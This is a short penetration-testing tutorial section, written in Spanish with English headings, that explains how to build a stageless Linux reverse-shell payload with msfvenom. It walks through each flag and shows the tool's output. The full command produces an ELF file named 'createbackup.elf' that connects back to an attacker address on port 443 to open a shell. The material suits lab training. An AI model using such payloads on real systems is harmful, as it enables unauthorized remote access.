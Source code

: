 ## Building A Stageless Payload

Ahora construyamos un payload stageless simple con msfvenom y desglosamos el comando.

### Build It

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
```

### Call MSFvenom

```bash
msfvenom
```

Define la herramienta utilizada para hacer el payload.

### Creating a Payload

```bash
-p 
```

Esta `option` indica que msfvenom está creando un payload.

### Choosing the Payload based on Architecture
```bash
linux/x64/shell_reverse_tcp 
```

Especifica un payload stageless `Linux` `64-bit` que iniciará una reverse shell basada en TCP (`shell_reverse_tcp`).

### Address To Connect Back To

```bash
LHOST=10.10.14.113 LPORT=443 
```

Cuando se ejecuta, el payload llamará a la dirección IP especificada (`10.10.14.113`) en el puerto especificado (`443`).

### Format To Generate Payload In

```bash
-f elf 
```

La `-f` flag especifica el formato en el que se generará el binario. En este caso, será un [.elf file](https://en.wikipedia.org/wiki/Executable_and_Linkable_Format).
